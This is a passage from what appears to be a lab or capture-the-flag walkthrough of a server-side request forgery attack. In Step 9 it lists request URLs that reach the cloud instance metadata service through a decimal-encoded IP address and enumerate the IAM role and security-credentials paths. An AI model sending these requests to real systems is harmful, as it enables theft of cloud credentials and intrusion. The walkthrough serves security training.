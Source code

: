 Success! We can now access the Instance Metadata Service.

### Step 9: Exploring Instance Metadata

Let's enumerate the available metadata:

```
http://2852039166/latest/meta-data/iam/
```

![IAM Metadata](images/iam_metadata.png)

```
http://2852039166/latest/meta-data/iam/security-credentials/
```

![IAM Role Name](images/iam_role_name.png)
